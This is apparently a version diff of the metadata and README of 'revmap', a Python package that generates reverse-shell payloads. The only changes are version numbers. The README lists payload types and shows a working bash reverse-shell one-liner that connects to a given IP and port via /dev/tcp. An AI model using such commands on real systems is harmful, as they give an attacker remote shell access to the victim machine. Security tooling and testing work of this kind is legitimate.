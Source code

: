  * *Files 2% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: revmap
-Version: 0.0.3
+Version: 0.0.4
 Summary: Tool that generates reverse shell in multiple languages and encodes
 Home-page: https://github.com/joaoviictorti/revmap
 Author: joaoviictorti (viictorjj)
 Author-email: joaovictorti08@gmail.com
 License: MIT License
 Keywords: revshell shell python security
 Classifier: Development Status :: 5 - Production/Stable
@@ -68,15 +68,15 @@
 ```
 Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
 ```yaml
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti 
+        v0.0.4 - @joaoviictorti 
 
 options:
   --h, --help            show this help message and exit
   --version             show program's version number and exit
   --ip IP                Insert ip
   --port PORTA           Insert port
   --payload {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang} Insert payload
@@ -96,15 +96,15 @@
 ```console
 revmap --ip 192.168.4.160 --port 8080 --payload bash
 
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti 
+        v0.0.4 - @joaoviictorti 
                                                
 
 bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
 ```
 
 
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -1,8 +1,8 @@
-Metadata-Version: 2.1 Name: revmap Version: 0.0.3 Summary: Tool that generates
+Metadata-Version: 2.1 Name: revmap Version: 0.0.4 Summary: Tool that generates
 reverse shell in multiple languages and encodes Home-page: https://github.com/
 joaoviictorti/revmap Author: joaoviictorti (viictorjj) Author-email:
 joaovictorti08@gmail.com License: MIT License Keywords: revshell shell python
 security Classifier: Development Status :: 5 - Production/Stable Classifier:
 Environment :: Console Classifier: Intended Audience :: System Administrators
 Classifier: License :: OSI Approved :: GNU General Public License v3 (GPLv3)
 Classifier: Natural Language :: English Classifier: Operating System :: OS
@@ -34,18 +34,18 @@
```